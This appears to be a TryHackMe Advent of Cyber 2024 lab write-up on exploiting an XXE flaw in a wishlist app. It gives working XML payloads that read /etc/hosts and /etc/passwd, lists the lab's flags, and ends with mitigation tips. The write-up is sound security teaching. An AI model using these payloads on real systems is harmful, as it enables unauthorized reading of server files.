




# **TryHackMe Writeup: Day 5 - XXE (Advent of Cyber 2024)**

## **Overview**
- **Room Name**: Day 5: SOC-mas XX-what-ee?
- **Difficulty**: Easy
- **Category**: Web Exploitation
- **Objective**: Understand and exploit an XML External Entity (XXE) vulnerability.
- **Tools**: Burp Suite

---

## **Table of Contents**
1. [Introduction](#introduction)
2. [Enumeration](#enumeration)
3. [Exploitation](#exploitation)
4. [Post-Exploitation](#post-exploitation)
5. [Conclusion](#conclusion)

---

## **Introduction**

XML External Entity (XXE) vulnerabilities occur when an application processes XML input containing external entities without proper validation or sanitization. Attackers can exploit this to access sensitive files, execute malicious code, or interact with external systems.

In this challenge, we explore how XXE vulnerabilities work and demonstrate how to exploit them.

---

## **Enumeration**

### Step 1: Intercepting Requests
1. Start the TryHackMe lab environment and connect via VPN or the attack box.
2. Use Burp Suite to intercept traffic:
   - Open Burp's browser and navigate to `http://10.10.111.13`.
   - Interact with the application by adding an item to the wishlist (`wishlist.php`).
   - Capture the POST request containing XML data in Burp Suite's HTTP history.

### Observed Request:
```xml
<wishlist>
  <user_id>1</user_id>
  <item>
    <product_id>1</product_id>
  </item>
</wishlist>
```

#### Screenshot:
  
*This screenshot shows the intercepted POST request containing the XML data sent to `wishlist.php`.*

This XML structure reveals that the server processes user-supplied XML input.

---

## **Exploitation**

### Step 2: Crafting a Malicious Payload
The goal is to exploit the XXE vulnerability by injecting a payload that retrieves sensitive files from the server.

#### Malicious Payload:
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY payload SYSTEM "/etc/hosts">
]>
<wishlist>
  <user_id>1</user_id>
  <item>
    <product_id>&payload;</product_id>
  </item>
</wishlist>
```
- The `<!ENTITY>` tag defines an external entity (`payload`) pointing to `/etc/hosts`.
- The `&payload;` reference is replaced with the file's content when the XML is processed.

#### Why Target `/etc/hosts`?  
The `/etc/hosts` file contains mappings of IP addresses to hostnames, which can reveal network information or confirm access to sensitive files on the server.

### Step 3: Sending the Payload
1. Use Burp Suite's Repeater tool:
   - Right-click on the intercepted POST request and send it to Repeater.
   - Replace the original XML with the malicious payload.
2. Send the modified request and observe the response, which should include the contents of `/etc/hosts`.

#### Screenshot:
  
*This screenshot shows the crafted malicious payload being sent using Burp Suite's Repeater tool.*

---

## **Post-Exploitation**

### Step 4: Further Exploration
Once the vulnerability is confirmed, additional payloads can be crafted to extract other sensitive files, such as `/etc/passwd` or application-specific files like `CHANGELOG`.

#### Example Payload for `/etc/passwd`:
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY read SYSTEM "/etc/passwd">
]>
<wishlist>
  <user_id>1</user_id>
  <item>
    <product_id>&read;</product_id>
  </item>
</wishlist>
```

#### Why Target `/etc/passwd`?  
The `/etc/passwd` file contains user account information on Unix-based systems, including usernames and hashed passwords (if shadow files are not used). This can aid in further attacks like privilege escalation or brute-forcing credentials.

---

#### **Discovered Flags:**
1. **What is the flag discovered after navigating through the wishes?**
   - Flag: `THM{Brut3f0rc1n6_mY_w4y}`

   #### Screenshot:
     
   *This screenshot shows evidence of sabotage revealing another flag.*


2. **What is the flag seen on the possible proof of sabotage?**
   - Flag: `THM{m4y0r_m4lw4r3_b4ckd00rs}`

   #### Screenshot:
     
   *This screenshot shows the discovered flag inside the `CHANGELOG` file.*

---

## **Conclusion**

This challenge demonstrated how an XXE vulnerability can be exploited to access sensitive server files by injecting malicious XML payloads.

### Key Takeaways:
- **Understanding XXE**: The vulnerability arises from improper handling of external entities in XML parsers.
- **Exploitation Techniques**: Tools like Burp Suite make it easy to craft and test malicious payloads.
- **Mitigation Strategies**:
  - Disable external entity processing in XML parsers (e.g., `libxml_disable_entity_loader(true)` in PHP).
  - Validate and sanitize all user inputs, especially XML data.
  - Use secure configurations for XML libraries to prevent unintended behavior.

By addressing these vulnerabilities early, developers can prevent attackers from exploiting XXE flaws in their applications.

---

## Optional Troubleshooting Section (if needed)
### Common Issues During Exploitation:
1. **Server Rejects Malformed XML**:
   - Ensure your crafted payload adheres to proper XML syntax.
2. **External Entities Not Processed**:
   - The server may have protections enabled (e.g., disabled entity loading). In such cases, exploitation may not work unless misconfigurations are present.
3. **No Response from Server**:
   - Check network connectivity and ensure you're sending requests to the correct endpoint.